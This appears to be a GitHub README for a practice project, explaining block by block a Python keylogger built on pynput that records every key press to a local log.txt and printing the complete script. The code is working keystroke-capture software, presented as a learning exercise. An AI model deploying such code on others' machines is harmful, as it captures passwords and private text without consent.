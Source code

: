 <h1>Keylogger Practice Project</h1>

<h2>Description</h2>
This script is a simple keylogger that captures every key press, and records them in a text file called "log.txt". It imports the necessary modules from the pynput library, which allows it to listen to keyboard inputs. The script defines a function on_press which is called every time a key is pressed. In the function, it first tries to get the character of the key pressed, if it fails it checks if the key pressed is a space, if it is a space it assigns current_key as a space otherwise it assigns current_key as " + str(key) + " ". Then it appends the current key to a global variable called log. It then opens the "log.txt" file, which is created if it does not exist, and writes the key presses to the file. The script starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.
<br />


<h2>Environments Used </h2>

- <b>Windows 11</b>

<h2>Program Walkthough Code:</h2>

<b>This first block imports the necessary modules from the pynput library. The pynput library allows for control and monitoring of keyboard and mouse inputs.</b>

```python
import pynput
from pynput import keyboard
```
<b>This block defines the on_press function which will be called every time a key is pressed. The function takes in a key argument which is the key that was pressed. The function first tries to get the char attribute of the key which will give the character representation of the key. If this fails, it means that the key pressed is not a character, so it checks if it's a space and assigns the value " " to the current_key variable. If it's not a space it assigns the key name to the current_key variable.</b>

```python
# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
```            
<b>This line appends the current key to a global variable named log. This variable stores all the keys pressed.</b>

```python
 # append the current key to a global variable storing the log
    log.append(current_key)
```

<b>This block writes the contents of the log variable to a file named "log.txt". It opens the file in write mode, and for each key stored in the log variable, it removes the single quotes from the key and checks if the key is a space or not. If it's a space, it writes a space to the file. If it's not a space, it writes the key to the file.</b>

```python
 # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)
```

<b>This block starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.</b>

```python
# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```    

<b> The final result should look like this</b>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```
